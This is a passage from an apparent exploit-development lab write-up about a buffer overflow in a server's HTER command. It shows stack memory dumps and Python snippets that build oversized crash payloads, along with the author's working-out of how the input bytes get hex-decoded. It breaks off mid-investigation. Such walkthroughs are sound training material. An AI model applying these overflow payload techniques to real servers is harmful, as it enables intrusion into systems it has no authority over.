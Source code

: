 ## Stack Confusion

The PoC successfully crashes the server. But you can observe odd behavior:

```bash
00DEF5B8   00DEF5C8
00DEF5BC   00744A08
00DEF5C0   00740000
00DEF5C4   00000103
00DEF5C8   AAAAAAAA
00DEF5CC   AAAAAAAA
00DEF5D0   AAAAAAAA
00DEF5D4   AAAAAAAA
00DEF5D8   AAAAAAAA
00DEF5DC   AAAAAAAA
00DEF5E0   AAAAAAAA
```

Our `b'A'` input bytes get turned into the hex values `0xA` directly instead of their `0x41` byte values that you would normally expect. 

And the server does not crash when you send some characters outside of the hex range [0-9a-f] (e.g. a payload like `b"gghhiijj" * 1024`).

So I changed it to:

```python
size = 2048
buf = b""
buf += b"HTER "
buf += b"41" * size
buf += b"\n"
```

The result is still not as expected:
```bash
0102F5C8   14141414
0102F5CC   14141414
0102F5D0   14141414
0102F5D4   14141414
0102F5D8   14141414
0102F5DC   14141414
```

Our b"41" input appears to get changed to b"14".

I fought with this challenge for a while and thought maybe the nibbles of the bytes get reversed (Note: 1 Byte = 2 Nibbles).

To figure out what happens I sent this:

```python
buf += b"11223344" * size
```

I got a vastly different result:
